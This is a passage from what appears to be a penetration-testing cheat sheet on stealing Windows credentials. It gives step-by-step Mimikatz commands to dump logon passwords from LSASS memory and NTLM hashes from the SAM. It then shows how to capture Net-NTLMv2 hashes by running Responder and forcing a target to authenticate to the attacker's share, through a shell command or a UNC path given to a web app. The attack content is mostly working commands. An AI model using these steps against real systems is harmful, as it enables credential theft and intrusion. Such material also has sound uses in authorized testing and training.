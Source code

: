 ```sh
# So, it can be helpful for the older version of the Windows.
```

**(3) Mimikatz**

The most powerful credential-dumping tool.

1. **Upload and execute** `mimikatz.exe` on the target machine

2. **Enable Debug Privileges**. This should be a standard for running mimikatz as it `SeDebugPrivilege` access right enabled to run command such as `sekurlsa::logonpasswords` and `lsadump::sam`.

```dos
mimikatz # privilege::debug
Privilege '20' OK
```

This should return **Privilege '20' OK**.

3. **Extract Logon Passwords**. This command parses the LSASS process memory for credentials of logged-on users.
```dos
sekurlsa::logonpasswords
```

4. **Dump NTLM hashes** from the SAM. You must first run `token::elevate` to elevate to `SYSTEM` user privileges.
```dos
mimikatz # token::elevate
mimikatz # lsadump::sam
```

---

### Abuse the Net-NTLMv2

If you cannot dump hashes directly, you can capture a **Net-NTLMv2** hash. This is a challenge-response hash used for network authentication and is more secure than NTLMv1. Unlike an NTLM hash, it cannot be used for Pass-the-Hash but can be cracked offline or relayed.

1. **Set up a fake SMB/HTTP server** using **[Responder](https://github.com/lgandx/Responder)** or similar tool.

```sh
# sudo responder -I <your_network_interface> -v
sudo responder -I tap0 -v
```

2. **Trigger Authentication**. Force a Windows machine to authenticate to your listener.
 
* **From a Shell**: If you have command execution, request a resource from your attacker machine's fake share.

```sh
dir \\<your_ip>\share
```

* **From a Web App**: If there's a feature that processes UNC paths (e.g., file upload, avatar from URL), provide a path to your listener.
